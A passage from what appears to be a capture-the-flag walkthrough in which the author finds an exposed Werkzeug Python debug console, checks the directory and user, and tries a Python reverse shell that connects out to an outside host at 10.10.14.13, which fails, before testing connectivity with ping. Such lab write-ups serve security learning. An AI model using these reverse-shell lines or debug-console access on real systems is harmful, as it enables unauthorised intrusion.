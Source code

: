 
I already had `/list` from the links on the page, but `/console` is new.

#### /console

Visiting `/console` returns a Python console in the browser:

![image-20200803062342737](https://0xdfimages.gitlab.io/img/image-20200803062342737.png)

It is running legacy Python:

![image-20200803062529999](https://0xdfimages.gitlab.io/img/image-20200803062529999.png)

The current directory is `/var/www` and has stuff referencing `shorty`:

    
    
    >>> import os
    >>> os.getcwd()
    '/var/www'
    >>> os.listdir('.')
    ['manage-shorty.py', 'testing', 'shorty']
    

The current shell is running as the werkzeug user:

    
    
    >>> os.getlogin()
    'werkzeug'
    

## Shell as werkzeug

### Failed Reverse Shell

As soon as I see code execution in this console, I’m looking to get a legit
shell. I’ll start putting in the lines from a standard Python reverse shell:

    
    
    >>> import os, pty, socket
    >>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> s.connect(('10.10.14.13',80))
    

When I hit enter on that last line, it just disappears and nothing comes back.
Very strange. I tried to reload the console, but it just hung. My best guess
here is that the connection is failing (remember I couldn’t access my own host
through the Squid), and then the console program breaks waiting for it.
Eventually the connection times out, and the console comes back.

Figuring it could be some bug in how Python is doing it, I tried a Bash shell
with Python’s `os.system`, but got the same results.

I checked to see if I could `ping` myself with `tcpdump` running on my local
box:

    
    
    >>> os.system('ping -c1 10.10.14.13')
    0
    